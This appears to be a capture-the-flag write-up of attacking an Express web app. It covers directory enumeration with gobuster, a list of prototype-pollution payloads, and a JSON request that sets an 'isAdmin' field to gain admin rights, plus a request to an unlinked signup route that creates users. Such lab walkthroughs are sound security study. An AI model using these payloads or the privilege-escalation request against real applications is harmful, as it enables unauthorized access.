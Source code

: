 # Express app (port 4000)

Upon visiting the page, we are presented with a login page with a note to sign in as `guest:guest`.&#x20;

### Enumeration&#x20;

I opened Burp suite, and configured my browser to route traffic through the Burp proxy.

From inspection of the network requests, I discovered that the server uses _Express_ via the  `X-Powered-By` response headers. Express is a Node.js web framework used to develop web server applications ([https://expressjs.com/](https://expressjs.com/)).

<figure><img src="../../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Running a simple directory enumeration on port 4000 with `gobuster` , using the [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt):

{% code overflow="wrap" %}
```sh
$ gobuster dir -u http://<target>:4000 -w <wordlist>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

From the enumeration results, the one that stands out is the `/signup` route. I visited the address in the browser, and was faced with the following error:

<figure><img src="../../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

From this error message, we can learn of a few things:

a) The application uses a certain type of server-side rendered templating engine stored under the `views` folder

* Eg. Common Node.js engines includes: `.ejs`, `.pug`, etc.

b)  The root directory of the web application is `/home/ubuntu/include`&#x20;

* The application is ran as the user `ubuntu` &#x20;



Moving on, I logged into the application using the `guest:guest` credentials found earlier. I was presented with a page displaying my profile, along with a few of my friends. Navigating to my profile, I was able to view my current details, along with a form to "Recommend an Activity":

<figure><img src="../../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>



Upon entering the values **test** and **test** to the fields, a new entry appeared on the profile details:

<figure><img src="../../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

This presents an interesting vulnerability, since we are able to directly manipulate the profile details. The following displays the HTTP POST request:

<pre class="language-http"><code class="lang-http"><strong>POST /recommend-activity/1 HTTP/1.1
</strong>Host: xxx.xxx.xxx.xxx:4000
User-Agent: xxxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://xxx.xxx.xxx.xxx:4000
Connection: keep-alive
Referer: http://xxx.xxx.xxx.xxx:4000/friend/1
Cookie: connect.sid=xxxx
Upgrade-Insecure-Requests: 1
Priority: u=0, i

activityType=test&#x26;activityName=test
</code></pre>

I sent the request to the Burp Repeater, and attempted a prototype pollution attack with the following payloads for `activityType` and `activityName` set to `true` :

1. `proto.polluted`
2. `constructor.prototype.polluted`
3. `__proto__['polluted']`
4. `__proto__.constructor.prototype.polluted`&#x20;
5. `['__proto__'].polluted`&#x20;
6. `['__proto__']['pollluted']`
7. `constructor['prototype'].polluted`
8. `constructor['prototype']['polluted']`
9. `['constructor']['prototype'].polluted`
10. `['constructor']['prototype']['polluted']`&#x20;

However, none of the payloads worked. Instead, I attempted to directly change the `isAdmin` field to `true` , but ended up changing the value to the literal string `"true"` . To get around this, I changed the content-type to `application/json` and tried the same request with the following payload:

```json
{
  "activityType":"isAdmin",
  "activityName": true
}
```

With this, we are now an admin. Upon navigating to the profile page, I noticed 2 more options on the navigation bar: _**“API”**_ and _**“Settings”**_

### Additional findings

The POST `/signin` route can be changed to `/signup` to create a new user:

{% code title="/signin" %}
```http
POST /signup HTTP/1.1
Host: xxx.xxx.xxx.xxx:4000
User-Agent: xxxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://xxx.xxx.xxx.xxx:4000
Connection: keep-alive
Referer: http://xxx.xxx.xxx.xxx/signin
Cookie: connect.sid=xxxx
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=newuser&password=newpass
```
{% endcode %}

This request creates a new user with the username and password of `newuser` and `newpass`  respectively.
